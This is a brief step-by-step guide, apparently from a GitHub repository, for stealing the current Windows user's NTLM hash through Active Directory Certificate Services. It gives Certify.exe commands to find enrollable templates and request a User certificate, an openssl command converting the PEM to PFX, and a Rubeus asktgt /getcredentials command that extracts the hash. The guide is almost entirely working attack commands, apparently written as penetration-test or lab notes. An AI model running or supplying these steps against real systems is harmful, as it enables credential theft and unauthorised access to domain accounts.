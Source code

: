 # This Attack Provide the NLTM hash of the Current User
We have to transfer the few exe and Grap the NTLM Hash.
# Step By Step 
```langauge
1. Transfer the certify.exe and Run it
2. Make a pem file and export to pfx, than transfer it
3. Transfer the pfx and Run the Rubeus.exe
```
# 1. Run the Certify.exe 
```language
#Grap the ca Name from the ouput 
.\Certify.exe find /enrollable
#Put the ca Name and Hostname of the Box 
.\Certify.exe request /ca:<hostname>\<ca_name> /template:User
```
# 2. Save the key and Certificate  with .pem file
```language
nano user_name.pem

openssl pkcs12 -in user_name.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
# 3. Transfer the cert.pfx and Rebeus in Box
# 4. Extract the NTLM hash
```language
.\rubeus.exe asktgt /user:<current_user_name> /certificate:C:\xampp\htdocs\files\cert.pfx /getcredentials /show /nowrap
```
